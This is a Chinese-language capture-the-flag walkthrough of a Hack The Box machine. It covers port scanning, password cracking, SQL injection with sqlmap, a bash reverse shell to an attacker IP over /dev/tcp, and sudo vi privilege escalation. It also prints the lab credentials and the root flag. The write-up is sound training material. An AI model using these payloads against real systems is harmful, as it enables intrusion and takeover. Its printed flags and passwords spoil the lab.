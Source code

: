 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OhaEhzZ37GqeMdtgNaosEA)

0x01 端口扫描
=========

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLnoKTvbrYOth1a5Mo2vPicaVn2jvYeBg6aHky87W2tqMcjNqYN8I3W3A/640?wx_fmt=png)

使用

```
nmap -sV -sS 10.10.10.46
```

执行端口扫描，并且显示版本信息和端口服务  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL87W8ljDcJ9bZQC3L5qrYPfTpXssiaZ1evvE1fWvTVfJKBsagrbJ1iaOA/640?wx_fmt=png)

发现目标主机开放了 21 端口 FTP 服务、22 端口 SSH 服务、80 端口 web 服务。  

我们可以优先通过 FTP 服务登录，然后可以对 web 服务提供渗透线索，因为登录的凭据是上一个靶场 Oopsie 获取到的，用于下一个靶场的使用（疏忽忘记写了）：在 / root/.config/filezilla 路径下的 filezilla.xml 配置文件，用户登录凭据是：ftpuser/mc@F1l3ZilL4

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLexDEwdvxHuVP0SVZ4GBHTuvLibd7x4IUMwqM9rJrH9UDgM9sFs2SzVg/640?wx_fmt=png)

我们使用 ls 查看当前目录下的文件，发现存在 backup.zip 这个类似备份的 zip 文件，我们 get 下来，解压后发现需要解压密码  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL2uTDX6zMNOAn7RkCbMASP5xUlTSqSiaEC8kN1jyIv916gsm4HaaibKsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLbP3UDK4icyRXexibSAlwzphmlmzyXdtdmlS6gQY7CasKvHtbYtu3vc2g/640?wx_fmt=png)

可以使用 kali 的 john，也可以在 win 下使用 archpr 去爆破压缩包密码。  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLWhxeIDGbDslZymyeiaEIxibRib83wDYZXb6kKaMRZAD7Oezk92zDXCeqw/640?wx_fmt=png)

爆破出压缩包解压密码为 741852963，然后输入压缩包密码解压，发现有两个文件：index.php 和 style.css 文件，打开 index.php  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLk1iaxGUk00GXQ0gpU3rZlP9I1KyzJ5I3jCxrqPEZU2icV6PHlLnavuBQ/640?wx_fmt=png)

通过代码审计可以知道，里面有一个 web 登录的凭证，用户名 admin，密码 2cb42f8734ea607eefed3b70af13bbd3 是经过 MD5 算法进行加密，这时候可以使用在线的解密网站 somd5 解密，明文密码是：qwerty789

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLeFtnGQ9iav31lX0U7ic3ZAmqPkww6wz5D7M6fzZ6lh73FhM5bY9TUBNA/640?wx_fmt=png)

  

===

0x02 WEB 渗透  

==============

浏览器访问 10.10.10.46

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLODCiczmbUicHWzicaoq6iaSiaCaM8znDPicD5gaMMSlC8jNib0alFj5eJczibw/640?wx_fmt=png)

使用账号：admin, 密码 qwerty789 登录后台，发现有个搜索框  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLSvNiciaicJMgBibicO11jgric5SEic7XlcibPyvLhj0D8yyia3XRmONRNZgpOrA/640?wx_fmt=png)

我们随便输入一个 1, 搜索  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL52KPuFiaTA5S4j2USgCZiaCelReGsx1GkhQcOnAyNYSvt3gWRtSrz07g/640?wx_fmt=png)

然后发现 url 是 search=1，很快想到可以测试是否存在 SQL 注入漏洞  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLaVQY80Dp4PyYr0KpL7FBKuOaPV5gPnNdMNcIyoSibKoUS7jPow5ZmMQ/640?wx_fmt=png)

使用’ or 1=1 #有返回报错，可以试试使用 sqlmap 去注入。  

在搜索框随便写内容，然后点击搜索时候使用 burp 抓包，右键保存文件为 sql.txt

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLzgXHTaGz2uKz5VqI4W1LY2jHPBFcd8U1e7TVrLh0fOGOkPY1b3C7jg/640?wx_fmt=png)

然后使用 sql.txt 去跑 sqlmap  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLawXIQYy52M8uiakOxcibpN3yN5W2FciapmkKlJUrQw6m04R1pYt77RgoA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLjwrqNB7fqxTBUYfMZVoKsnsJHX9yibIibiaa3KVhj3Ou5RymbEAXQaHXg/640?wx_fmt=png)

发现确实存在 SQL 注入漏洞，且数据库为 postgresql 数据库，我们继续使用 - os—shell 获取到 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLHw1Fjxh6SFUyhzhAG2ZvZ8LHKOL2eY2Iznet050kxc1ib3LUNcdjzyw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLIUnL7CeOa0OXqFUevjN7Nk0Un4vEz6Bc2IVa1icygiaFcuqngwdXLYzg/640?wx_fmt=png)

发现 shell 获取成功，使用 whoami 查看当前用户名  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL6Gf5DvAbRh5JoRD328KmPpoZWmlU4r3iaCBht8lribGjNhvVicdLcQuEg/640?wx_fmt=png)

当前用户名是 postgres，然后我们使用 bash -c 反弹 shell 到 kali  

输入：

```
bash -c 'bash -i >& /dev/tcp/10.10.16.9/1234 0>&1'
```

其中 10.10.16.9 是自己的 kali 的 IP，1234 是反弹的端口（随意写）。然后监听 1234 端口

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLxSEJV5ab7yJp0gu0ttj1C1cqBqQZeH7FVkn2dgdoNsS8CxrAt7AUMw/640?wx_fmt=png)

然后成功反弹 shell，切换到当前用户根目录，ls 查看，本身应该有个 user.txt 的。感觉靶场有问题，所以不予理会。  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLgY8vsx0JBeThv9CczYbCBp1PHmcFAcdCUg6wcJHyKvicJVUshB0B0BQ/640?wx_fmt=png)

  

===

0x03 提升权限  

============

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLUNLf3W6sJ5VNffqUB4PibHNP81bvB3odTYXvX16oLSUjZxaaxNJIytQ/640?wx_fmt=png)

在 var/www/html / 路径下，发现有个 dashboard.php 文件，cat 一下试试  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLK2gaQG1tl85zy3Plcjt4IlU8via9RkK2wxLVHyj1chEKNJFv3Gst6Cw/640?wx_fmt=png)

通过代码审计可知有个数据库连接配置，显示用户名是 postgres，密码是 P@s5w0rd!  

我们现在需要把 shell 升级为 TTY， tty 命令用于显示终端机连接标准输入设备的文件名称

```
SHELL=/bin/bash script -q /dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL6iadEGslJFQmn6KD5AEH8XqNGrpoDgFAza62HFUIia2zqXDWjVngWjOw/640?wx_fmt=png)

使用 sudo -l 查看自己当前的权限  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLxRmFXIkoDvmreSoUDPIPic38kufpUvc3s4lrvyicjBBLql0M2jI97lYw/640?wx_fmt=png)

发现最下面有个用户可以使用 VI 编辑 / etc/postgresql/11/main/pg_hba.conf 配置文件，利用它来获得一个根 shell 并访问 root.txt。  

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLQ7IwPHWxk0eFoGMicKmVdHicvXAV1fibF8SVyWCa0ZCicUicrSnTT6QwsQg/640?wx_fmt=png)

进入 vi 之后打字会重叠，所以直接输入:!/bin/bash 就可以了  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLDfL11ws98nRqBqJdgxZJBKiaWuC1EGTl5yIVQpaEg8cDKWmw8ytL3MA/640?wx_fmt=png)

进入 / root 目录下，查看 root.txt 可以获得 root 的 flag：  

dd6e058e814260bc70e9bbdef2715849

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLv8xtoiaxBH93bEtZicM7NCOxzOib2hWbspa6kdicJIIzibfORb3I2tW9Jmw/640?wx_fmt=png)



  

  

END

  

 
